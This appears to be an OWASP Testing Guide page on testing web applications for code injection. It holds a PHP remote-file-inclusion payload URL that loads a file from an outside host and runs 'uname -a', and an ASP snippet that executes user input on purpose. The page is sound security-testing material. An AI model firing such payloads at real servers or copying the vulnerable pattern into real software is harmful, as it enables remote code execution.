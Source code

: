 # Testing for Code Injection (OTG-INPVAL-012)

### Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.


In [Code Injection](https://www.owasp.org/index.php/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file.  These tests can target various server-side scripting engines, e.g.., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

### How to Test

#### Black Box testing

#####Testing for PHP Injection vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:
```
 http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a
```

**Result Expected:**

The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.


#### Gray Box testing

#####Testing for ASP Code Injection vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field?  Here, the ASP code will save the input to a file and then execute it:
```
 <%
 If not isEmpty(Request( "Data" ) ) Then
 Dim fso, f
 'User input Data is written to a file named data.txt
 Set fso = CreateObject("Scripting.FileSystemObject")
 Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
 f.Write Request("Data") & vbCrLf
 f.close
 Set f = nothing
 Set fso = Nothing

 'Data.txt is executed
 Server.Execute( "data.txt" )

 Else
 %>
 <form>
 <input name="Data" /><input type="submit" name="Enter Data" />
 </form>
 <%
 End If
 %>)))
```

### References

* Security Focus - http://www.securityfocus.com

* Insecure.org - http://www.insecure.org

* Wikipedia - http://www.wikipedia.org

* Reviewing Code for [OS Injection](https://www.owasp.org/index.php/OS_Injection)
<br>
